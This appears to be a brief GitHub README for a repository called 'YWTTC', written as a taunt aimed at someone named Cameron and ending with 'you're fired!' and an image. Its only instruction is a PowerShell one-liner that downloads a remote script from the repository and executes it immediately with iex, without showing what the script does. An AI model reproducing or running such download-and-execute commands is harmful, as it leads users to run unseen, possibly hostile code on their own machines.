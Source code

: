 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
```

Also, you're fired!
<p align="center">
  <img src="https://github.com/Refr3sh/YWTTC/raw/main/download.jpg" />
</p>
